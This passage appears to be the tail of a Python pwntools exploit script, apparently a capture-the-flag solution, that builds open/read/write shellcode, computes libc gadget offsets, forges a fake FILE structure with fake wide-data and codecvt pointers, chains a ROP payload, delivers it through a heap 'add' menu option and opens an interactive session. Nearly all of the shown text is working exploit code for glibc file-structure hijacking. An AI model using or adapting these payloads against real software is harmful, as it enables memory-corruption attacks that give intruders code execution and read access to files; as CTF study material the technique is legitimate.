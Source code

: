 ```python
    xor rsi,rsi
    mov rax,2
    syscall
  '''
  shellcode += shellcraft.amd64.linux.read(3,'rdi',0x100)
  shellcode += shellcraft.amd64.linux.write(1,'rsp',0x100)
  

  magic_addr = libc.address + 0x000000000014BC60
  leave_ppp_ret = libc.address + 0xed5dc
  io_file_sync = libc.address + 0x1E6440 - 0x18
  fake_wide_data = p64(0)*3 + p64(0) + p64(4) + p64(0)*6
  fake_codecvt = p64(leave_ppp_ret) + p64(magic_addr)
  payload = '\x00'*0x20
  payload += p64(0x00000000fbad8000) + p64(0)*3 + p64(0) + p64(1) + p64(0)
  payload += '\x00'*0x38 + p64(1)
  payload = payload.ljust(0xb8,'\x00')
  payload += p64(heap_addr + 0x138) 
  payload += p64(heap_addr + 0xe0)
  payload += p64(0)*3
  payload += p64(1)
  payload = payload.ljust(0xf8,'\x00')
  payload +=  p64(io_file_sync)
  payload += fake_wide_data
  payload += fake_codecvt
  payload += p64(heap_addr + 0x80)
  payload += p64(heap_addr + 0x100)
  payload += rop_chain
  payload += p64(heap_addr + 0x198)
  payload += asm(shellcode)
  #0x00000000000ed5dc
  payload = payload.ljust(0x370,'\x00')
  add(0x370,payload,0)
  
  #raw_input()
  #0000000000088F60
  sla(': ','6')
  p.interactive()
hack()

```

